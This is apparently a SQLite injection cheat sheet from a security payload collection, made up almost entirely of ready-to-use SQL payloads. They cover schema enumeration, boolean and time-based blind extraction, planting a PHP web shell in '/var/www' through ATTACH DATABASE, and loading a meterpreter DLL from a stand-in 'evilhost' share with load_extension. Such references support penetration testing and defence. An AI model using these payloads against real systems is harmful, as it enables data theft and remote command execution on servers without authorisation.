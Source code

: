 # SQLite Injection

## Summary

* [SQLite comments](#sqlite-comments)
* [SQLite version](#sqlite-version)
* [Integer/String based - Extract table name](#integerstring-based---extract-table-name)
* [Integer/String based - Extract column name](#integerstring-based---extract-column-name)
* [Boolean - Count number of tables](#boolean---count-number-of-tables)
* [Boolean - Enumerating table name](#boolean---enumerating-table-name)
* [Boolean - Extract info](#boolean---extract-info)
* [Time based](#time-based)
* [Remote Command Execution using SQLite command - Attach Database](#remote-command-execution-using-sqlite-command---attach-database)
* [Remote Command Execution using SQLite command - Load_extension](#remote-command-execution-using-sqlite-command---load_extension)
* [References](#references)

## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## Integer/String based - Extract table name

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled

## References

[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)
